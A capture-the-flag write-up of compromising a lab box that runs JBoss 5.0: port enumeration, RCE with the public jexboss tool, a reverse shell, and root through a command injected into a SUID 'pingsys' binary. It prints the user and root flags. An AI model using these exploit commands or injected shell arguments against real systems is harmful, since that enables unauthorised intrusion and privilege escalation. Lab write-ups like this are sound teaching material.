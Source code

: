 ```yaml
---
sticker: emoji//1f574-fe0f
---
```

# ENUMERATION
---



## OPEN PORTS
---

| PORT      | SERVICE                   |
| --------- | ------------------------- |
| 22/tcp    | SSH (OpenSSH 7.4)         |
| 80/tcp    | HTTP (Apache 2.4.6)       |
| 111/tcp   | RPCbind                   |
| 1098/tcp  | Java RMI                  |
| 1099/tcp  | Java Object Serialization |
| 3306/tcp  | MySQL/MariaDB             |
| 8008/tcp  | HTTP                      |
| 8083/tcp  | JBoss HTTP                |
| 40296/tcp | Unknown                   |
| 40982/tcp | Java RMI                  |
| 52306/tcp | Unknown                   |

We need to add `jacobtheboss.box` to `/etc/hosts`:

```
echo 'IP jacobtheboss.box' | sudo tee -a /etc/hosts
```


# RECONNAISSANCE
---


![](../images/Pasted%20image%2020250408162521.png)

Web application located at port 80 contains an admin login page and some other functionalities, I tried `XSS` on the search bar but it didn't work, I also tried `LFI` but same happened, seems like this is not the intended path to take, now, if we remember correctly, we got another website located at port 8080:

![](../images/Pasted%20image%2020250408162626.png)

We got something called `Jboss`, if we check the version:

```
whatweb http://jacobtheboss.box:8080

http://jacobtheboss.box:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTTPServer[Apache-Coyote/1.1], IP[10.10.230.73], JBoss[5.0][JBossWeb-2.1], Title[Welcome to JBoss&trade;], X-Powered-By[Servlet 2.5; JBoss-5.0/JBossWeb-2.1]
```

We are dealing with `JBoss 5.0`, if we search for an exploit, we can find this:

![](../images/Pasted%20image%2020250408162907.png)

We got `RCE`, let's proceed to exploitation phase.



# EXPLOITATION
---

Due to us knowing that we got RCE, we can download the exploit and test:

```
Github: https://github.com/joaomatosf/jexboss.git
```

After downloading the script, we can use it with:

```
python jexboss.py -host http://jacobtheboss.box:8080
```


We can see this:

![](../images/Pasted%20image%2020250408163415.png)

There we go, we got the shell, as it says in the script, to get a reverse shell, we can simply type the following:

```
jexremote=IP:PORT
```

If we check our listener:

![](../images/Pasted%20image%2020250408163529.png)

We got the connection, let's start the privilege escalation phase.


# PRIVILEGE ESCALATION
---

First step is stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](../images/Pasted%20image%2020250408163630.png)

We can read user flag now:

```
[jacob@jacobtheboss /]$ cat /home/jacob/user.txt
f4d491f280de360cc49e26ca1587cbcc
```

If we check for SUID 4000 binaries, we find this:

```
[jacob@jacobtheboss /]$ find / -perm -4000 2>/dev/null
/usr/bin/pingsys
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chage
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

We got a few that may be interesting but after testing all of them, the only one that I could find some info was `pingsys`

![](../images/Pasted%20image%2020250408164534.png)

Which means that in order to get root, we can do the following:

```
/usr/bin/pingsys '127.0.0.1; /bin/bash'
```

![](../images/Pasted%20image%2020250408164651.png)

There we go, we got the root shell and can finally read `root.txt`:

```
[root@jacobtheboss /]# cat /root/root.txt
29a5641eaa0c01abe5749608c8232806
```

![](../images/Pasted%20image%2020250408164733.png)

